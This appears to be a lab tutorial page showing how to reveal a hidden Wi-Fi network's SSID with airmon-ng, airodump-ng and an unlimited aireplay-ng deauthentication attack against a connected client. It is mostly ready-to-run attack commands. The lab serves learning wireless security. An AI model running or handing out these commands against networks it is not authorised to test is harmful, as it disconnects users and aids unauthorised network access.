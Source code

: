 # Hidden Network

Demonstrate how to decloak a hidden AP's SSID

* Run [setup](../setup.md) first
* Two terminals are needed
* One client needs to be associated
* Configure AP to not broadcast its SSID

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $ADAPTER $CHANNEL

# Start monitoring to collect data
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE
```

* The length shows 0

![hidden](../images/hidden.png)

* Sometimes the SSID will appear before even before doing a deauthentication attack. No need to continue if that is the case.

```bash
# [Terminal Two]
# Run the deauthentication attack
sudo aireplay-ng --deauth 0 -a $BSSID -c $CLIENT $INTERFACE
```

* Observe that the SSID is now provided
* The AUTH value appears too

![hidden](../images/unhidden.png)

## Reference

[Hidden](https://www.youtube.com/watch?v=fCa4rYxECRs&ab_channel=learningthing)
